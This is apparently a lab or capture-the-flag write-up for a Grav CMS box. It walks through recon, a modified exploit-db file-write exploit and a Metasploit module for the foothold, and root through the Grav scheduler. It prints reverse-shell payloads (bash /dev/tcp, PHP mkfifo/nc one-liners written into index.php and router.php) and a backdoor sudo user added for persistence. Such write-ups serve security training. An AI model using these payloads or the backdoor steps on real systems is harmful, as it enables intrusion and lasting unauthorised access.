

# Astronaut

### Contents

- [Set-up](#set-up)
- [Recon](#recon)
- [Foothold](#foothold)
- [Foothold w/ Metasploit (Bonus)](#foothold-w-metasploit-bonus)
- [Privilege Escalation](#privilege-escalation)
- [Persistence (Bonus)](#persistence-bonus)

## Set-up

1) Ran a `sudo apt-get update`

2) Added target `192.168.51.12` as `target` to `/etc/hosts`

## Recon 

3) Service discovery with `nmap -v -T4 -p- target`:

```
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

4) Ran nmap again with service version fingerprinting and service scripts against only the two ports from before (`nmap -v -T4 -p 22,80 -A target`):

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 98:4e:5d:e1:e6:97:29:6f:d9:e0:d4:82:a8:f6:4f:3f (RSA)
|   256 57:23:57:1f:fd:77:06:be:25:66:61:14:6d:ae:5e:98 (ECDSA)
|_  256 c7:9b:aa:d5:a6:33:35:91:34:1e:ef:cf:61:a8:30:1c (ED25519)
80/tcp open  http    Apache httpd 2.4.41
|_http-title: Index of /
| http-methods: 
|_  Supported Methods: HEAD GET POST OPTIONS
|_http-server-header: Apache/2.4.41 (Ubuntu)
| http-ls: Volume /
| SIZE  TIME              FILENAME
| -     2021-03-17 17:46  grav-admin/
```

Looks like a simple set-up with an ssh server and an http server. The scan also tells us right away there's something on `http://target/grav-admin/`, we'll keep that in mind.

5) We'll kick off http server path enumeration in the background to come back to later. We'll use `gobuster` (wasn't installed so `sudo apt-get install gobuster` before running)


<details>

<summary>`gobuster` results on `/`</summary>

```
??$ gobugobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://target
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://target
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/server-status        (Status: 403) [Size: 271]
Progress: 220560 / 220561 (100.00%)
===============================================================
Finished
===============================================================
```

</details>

No results. let's try enumerating under the path `nmap` gave us

<details>

<summary>`gobuster` results on `/grav-admin/`</summary>

```
??$ gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://target/grav-admin/
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://target/grav-admin/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/images               (Status: 301) [Size: 312] [--> http://target/grav-admin/images/]
/home                 (Status: 200) [Size: 14006]
/login                (Status: 200) [Size: 13959]
/user                 (Status: 301) [Size: 310] [--> http://target/grav-admin/user/]
/assets               (Status: 301) [Size: 312] [--> http://target/grav-admin/assets/]
/admin                (Status: 200) [Size: 15508]
/bin                  (Status: 301) [Size: 309] [--> http://target/grav-admin/bin/]
/system               (Status: 301) [Size: 312] [--> http://target/grav-admin/system/]
/cache                (Status: 301) [Size: 311] [--> http://target/grav-admin/cache/]
/vendor               (Status: 301) [Size: 312] [--> http://target/grav-admin/vendor/]
/backup               (Status: 301) [Size: 312] [--> http://target/grav-admin/backup/]
/logs                 (Status: 301) [Size: 310] [--> http://target/grav-admin/logs/]
/forgot_password      (Status: 200) [Size: 12375]
/tmp                  (Status: 301) [Size: 309] [--> http://target/grav-admin/tmp/]
/typography           (Status: 200) [Size: 16412]
/http%3A              (Status: 200) [Size: 14006]
/**http%3a            (Status: 200) [Size: 14006]
/*http%3A             (Status: 200) [Size: 14006]
/user_profile         (Status: 200) [Size: 13966]
```

</details>

Plenty of stuff to look at here... some initial thoughts:

- We'll check out these pages on the browser and see if we can get more info on what the server is. Maybe its a well-known app with known exploitable vulnerabilities.
- We'll try default credentials e.g. `admin:admin` against any login screens we find

6) Checking out the web server in the browser...




From the paths we got from `gobuster`, a lot of them return 403s, but a couple of them (`/login`, `/admin`) had authentication forms.

7) Tried `admin:admin`, `admin:password` and a few more of such credential combinations on `/login` and `/admin`. Got nothing. **We'll keep these pages in mind for later - if nothing else works, we'll try fuzzing here**

8) Upon closer inspection, noticed that the web app looks like a template (e.g. has typography examples). Indeed following the links in the page we find that it is a open-source "flat-file CMS" app template. See [getgrav.org](https://getgrav.org). This is good news, there are likely well-known vulnerabilities with older versions of grav.

9) Searching "grav" and "grav cms" in exploit-db with `searchsploit grav cms`:

```
??$ searchsploit grav cms
--------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                       |  Path
--------------------------------------------------------------------- ---------------------------------
Grav CMS 1.4.2 Admin Plugin - Cross-Site Scripting                   | php/webapps/42131.txt
Grav CMS 1.6.30 Admin Plugin 1.9.18 - 'Page Title' Persistent Cross- | php/webapps/49264.txt
Grav CMS 1.7.10 - Server-Side Template Injection (SSTI) (Authenticat | php/webapps/49961.py
GravCMS 1.10.7 - Arbitrary YAML Write/Update (Unauthenticated) (2)   | php/webapps/49973.py
GravCMS 1.10.7 - Unauthenticated Arbitrary File Write (Metasploit)   | php/webapps/49788.rb
gravy media CMS 1.07 - Multiple Vulnerabilities                      | php/webapps/8315.txt
--------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

So two notes:

- we don't really know what version of Grav we are working against
- the `searchsploit` results don't have any explicit RCE exploit, but the "arbitrary file write" exploits could be promising

We'll try them both if we have to. One is a python script, one is a `metasploit` module.

## Foothold

10) We have to modify the [exploit code](https://www.exploit-db.com/exploits/49973) to account for our hostname and that the root path of grav is not `/` but `/grav-admin/`, as well as a payload that sets up a reverse shell for our IP and listener port (which we'll set up in a bit)

(The modified code is in this directory along with the original)

payload generated as per the comments in the code: 

```
??$ echo -ne "bash -i >& /dev/tcp/192.168.49.51/80 0>&1" | base64 -w0
YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjQ5LjUxLzgwIDA+JjE=                                                                                                       
``` 

11) Set up a local listener (with `nv -lvnp 80`), and run the modified version of the exploit (`python 49973-modified.py`)

```
??$ nc -lvnp 80
listening on [any] 80 ...
connect to [192.168.49.51] from (UNKNOWN) [192.168.51.12] 54956
bash: cannot set terminal process group (3303): Inappropriate ioctl for device
bash: no job control in this shell
www-data@gravity:~/html/grav-admin$ whoami
whoami
www-data
```

Within a minute or so, we catch a shell as user `www-data`!

## Foothold w/ Metasploit (Bonus) 

For fun, also tried the metasploit module:


```
msf6 exploit(linux/http/gravcms_exec) > set TARGETURI /grav-admin/
TARGETURI => /grav-admin/
msf6 exploit(linux/http/gravcms_exec) > run

[*] Started reverse TCP handler on 192.168.49.51:80 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable.
[*] Sending request to the admin path to generate cookie and token
[+] Cookie and CSRF token successfully extracted !
[*] Implanting payload via scheduler feature
[+] Scheduler successfully created ! Wait up to 93 seconds
[*] Sending stage (39927 bytes) to 192.168.51.12
[*] Cleaning up the scheduler...
[+] The scheduler config successfully cleaned up!
[*] Meterpreter session 1 opened (192.168.49.51:80 -> 192.168.51.12:56074) at 2024-03-01 03:35:02 +0000

meterpreter > shell
Process 67283 created.                                                                                                                                                                   
Channel 0 created.                                                                                                                                                                       
whoami                                                                                                                                                                                   
www-data
```

We have a shell as user `www-data`!

## Privilege Escalation

12) Ran LinPEAS on the machine

From the output we gather some useful info:

- We have a cronjob running the grav binary:

> LinPEAS marked this as 95% change PE vector...

```
???????????? Cron jobs
? https://book.hacktricks.xyz/linux-hardening/privilege-escalation#scheduled-cron-jobs                                                                                                   
/usr/bin/crontab                                                                                                                                                                         
* * * * * cd /var/www/html/grav-admin;/usr/bin/php bin/grav scheduler 1>> /dev/null 2>&1
```

- The `php7.4` (php) binry has `setuid` capabilities

```
-rwsr-xr-x 1 root root 4.6M Feb 23  2023 /usr/bin/php7.4 (Unknown SUID binary!)
```

 Most promising things:

- take a look at `/var/www/html/grav-admin` and try puting a php reverse shell somewhere
- can we modify the config in `/etc/php/7.4/apache2/php.ini` to run arbitrary code?
- can we modify the config in `/etc/php/7.4/cli/php.ini` to run arbitrary code?

13) We go snooping in the `/var/www/html/grav-admin` directory searching for php files to put a reverse shell in:

I'll try the `index.php` file first:

> I first back it up with `cp index.php index.php.bak` in case we break the server

```
echo '<?php @posix_setuid(0); system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 192.168.49.51 443 >/tmp/f"); ?>' > index.php

cat index.php
<?php @posix_setuid(0); system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 192.168.49.51 443 >/tmp/f"); ?>
```

The cron job runs once a minute so we should know fairly quickly if that worked or not.

...

After a few minutes, we accept that did not work and move on to other places. (Reverting `index.php` back to what it was)

14) We try a different php file:

```
www-data@gravity:~/html/grav-admin/system$ cp router.php router.php.bak
cp router.php router.php.bak
www-data@gravity:~/html/grav-admin/system$ echo '<?php @posix_setuid(0); system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 192.168.49.51 443 >/tmp/f"); ?>' > router.php
<&1|nc 192.168.49.51 443 >/tmp/f"); ?>' > router.php
www-data@gravity:~/html/grav-admin/system$ cat router.php
cat router.php
<?php @posix_setuid(0); system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 192.168.49.51 443 >/tmp/f"); ?>
```

we play the waiting game again...

... that didn't work either.

15) We'll have to read the docs :tm: at [https://learn.getgrav.org/16/advanced/scheduler](https://learn.getgrav.org/16/advanced/scheduler).

Looks like this scheduler thing has a config file in `/user/config/scheduler.yaml`

```
www-data@gravity:~/html/grav-admin/user/config$ cat scheduler.yaml
cat scheduler.yaml
custom_jobs:
  ncefs:
    command: /usr/bin/php
    args: '-r eval(base64_decode("Lyo8P3BocCAvKiovCmZpbGVfcHV0X2NvbnRlbnRzKCcvdG1wL3Jldi5zaCcsYmFzZTY0X2RlY29kZSgnWW1GemFDQXRhU0ErSmlBdlpHVjJMM1JqY0M4eE9USXVNVFk0TGpRNUxqVXhMemd3SURBK0pqRT0nKSk7Y2htb2QoJy90bXAvcmV2LnNoJywwNzU1KTtzeXN0ZW0oJ2Jhc2ggL3RtcC9yZXYuc2gnKTsK"));'
    at: '* * * * *'
    output: null
    output_mode: append
status:
  ncefs: enabled
```

oh... this is... funny...

So decoding that base64 string gives us:

```
?? $ echo 'Lyo8P3BocCAvKiovCmZpbGVfcHV0X2NvbnRlbnRzKCcvdG1wL3Jldi5zaCcsYmFzZTY0X2RlY29kZSgnWW1GemFDQXRhU0ErSmlBdlpHVjJMM1JqY0M4eE9USXVNVFk0TGpRNUxqVXhMemd3SURBK0pqRT0nKSk7Y2htb2QoJy90bXAvcmV2LnNoJywwNzU1KTtzeXN0ZW0oJ2Jhc2ggL3RtcC9yZXYuc2gnKTsK' | base64 -d
/*<?php /**/
file_put_contents('/tmp/rev.sh',base64_decode('YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjQ5LjUxLzgwIDA+JjE='));chmod('/tmp/rev.sh',0755);system('bash /tmp/rev.sh');
```

That's our payload from our foothold exploit!

So I'm guessing if we would just change the original exploit to set the uid, we would be able to get root! Let's try it.


16) Modified the exploit to have `posix_setuid(0)`.

> Code available in this repo under `49973-modified-setuid.py`

17) I set up my listener with `nc -lvnp 80` on a different window, and run the exploit `pyhton 49973-modified-setuid.py`

```
??$ nc -lvnp 80
listening on [any] 80 ...
connect to [192.168.49.51] from (UNKNOWN) [192.168.51.12] 44084
bash: cannot set terminal process group (30460): Inappropriate ioctl for device
bash: no job control in this shell
root@gravity:~/html/grav-admin# whoami
whoami
root
```

And we get root!

```
root@gravity:~/html/grav-admin# cd /root
cd /root
root@gravity:/root# ls
ls
flag1.txt
proof.txt
snap
root@gravity:/root# cat proof.txt
cat proof.txt
ee165d75af56d474155b147142ea35ba

```

There's our proof!

## Persistence (Bonus)

18) We'll do the usual: set up a new user so that we can come back through the front door (the ssh server)

```
root@gravity:/root# sudo useradd -m hacker
sudo useradd -m hacker

root@gravity:/root# echo hacker:hacker | sudo chpasswd
echo hacker:hacker | sudo chpasswd

root@gravity:/root# sudo usermod -aG sudo hacker
sudo usermod -aG sudo hacker
```

I checked the ssh server config (in `/etc/ssh/sshd_config`) and it has `PasswordAuthentication yes`... so no need to change the config or restart the server.

19) Testing our access:

```
??$ ssh hacker@target
The authenticity of host 'target (192.168.51.12)' can't be established.
ED25519 key fingerprint is SHA256:VnMMoSlX8Y0MsU947B2bAEqDX+KmnqpFLFXtLgsOERw.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'target' (ED25519) to the list of known hosts.
hacker@target's password: 
Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.4.0-146-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Fri 01 Mar 2024 06:00:37 PM UTC

  System load:  0.0               Processes:               233
  Usage of /:   52.0% of 9.75GB   Users logged in:         0
  Memory usage: 28%               IPv4 address for ens160: 192.168.51.12
  Swap usage:   0%


 * Introducing Expanded Security Maintenance for Applications.
   Receive updates to over 25,000 software packages with your
   Ubuntu Pro subscription. Free for personal use.

     https://ubuntu.com/pro

Expanded Security Maintenance for Applications is not enabled.

0 updates can be applied immediately.

8 additional security updates can be applied with ESM Apps.
Learn more about enabling ESM Apps service at https://ubuntu.com/esm


The list of available updates is more than a week old.
To check for new updates run: sudo apt update


The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

$ sudo whoami
[sudo] password for hacker: 
root
```

Success!
